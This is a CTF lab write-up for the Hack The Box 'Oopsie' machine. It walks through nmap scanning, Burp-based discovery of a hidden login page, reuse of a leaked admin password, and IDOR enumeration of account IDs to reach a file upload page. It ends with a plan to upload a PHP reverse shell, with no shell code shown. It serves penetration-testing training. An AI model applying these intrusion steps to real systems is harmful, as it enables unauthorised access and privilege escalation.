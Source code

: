 ```yaml
---
title: "Writeup: Oopsie"
date: 2020-12-29T9:34:30-04:00
categories:
  - Blog
  - Notes
tags:
  - oopsie
  - update
  - nmap
  - pwd
  - BURP
---
```


Here are notes from the named target:

*Enumeration* - Ports 445 and 1433 are open, which are associated with file sharing (SMB) and SQL Server.
Linux - 10.10.10.28
```yaml
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.27 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
 nmap -sC -sV -p$ports 10.10.10.27 
```

Results:
```yaml
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Two Ports open SSH and Web

*Enumerate* the Web port 80 - MegaCorpAutomotive

Using a web browser connect to the IP and look around. None of the menu links work but at the bottom of the home page it speaks about login but no page for that. Use BURP proxy to take a look at web traffic.

**BURP**

Using BURP and its uilt in browser no need to configure external browser.
  open web site and in BURP click :Forward" button on the Proxy tab until the page opens up:
  Switch to the :Target" tab and you see a folder tree under the Web IP for "CDN-CGI\login" add that to url path in browser and hit enter:
  back in BURP on the Proxy Tab click Forward to get to the Login Screen:
  
From the "ARCHTYPE" box we learned that their was an Administrator/Admin account that used the Password: MEGACORP_4dm1n!!

Using that Admin user name and Password from ARCHETYPE works and we get the admin page

```yaml
http://10.10.10.28/cdn-cgi/login/admin.php
```

Look around that page:

  The uploads page says that "super admin" is needed to access but I am logged in as only Admin
  
  ```yaml
  http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads
  ```
  
  Using BURP proxy again turn ON Intercept and capture the account page to get the user ID
  Send the page to intruder:
  
  Clear all the automatic set variables with the Cler button and highlight the id=1 then click add to gt this
  
  ```yaml
  GET /cdn-cgi/login/admin.php?content=accounts&id=§1§ HTTP/1.1

Host: 10.10.10.28

Upgrade-Insecure-Requests: 1
```

Click the Payloads tab and we want to try id=1-100 so we got to list 1-100 numbers in the shell with

```yaml
for i in {1..100}
do
 # your-unix-command-here
 echo $i
done
```

Highlight the numbers 1-100 in the shell - Copy and then in BURP click Paste to add them to the Payloads section:

Click Options and scroll to bottom to the Redections section:
1. click always radio
2. check Process cookies in redirections
  
Click Target Tab and click Start Attack Button: the length field shows that responce text is different than others so taking a look at the ones with different length shows number 30 is "super admin" by choosing it with Response Tb anf RAW selected:

```yaml
<br /><br /><center><h1>Repair Management System</h1><br /><br />
<table><tr><th>Access ID</th><th>Name</th><th>Email</th></tr><tr><td>86575</td><td>super admin</td><td>superadmin@megacorp.com</td></tr></table<script src='/js/jquery.min.js'></script>
<script src='/js/bootstrap.min.js'></script>
</body>
```
  
Use the ID 86575 as the ID value in an uploads page and get access to upload a file.
that gets access to the uploads page

```yaml
http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads
```

Now I wanty to try and upload a PHP reverse shell

**Reverse Shell**
Locate PHP reverse shell from http://pentestmonkey.net/tools/web-shells/php-reverse-shell
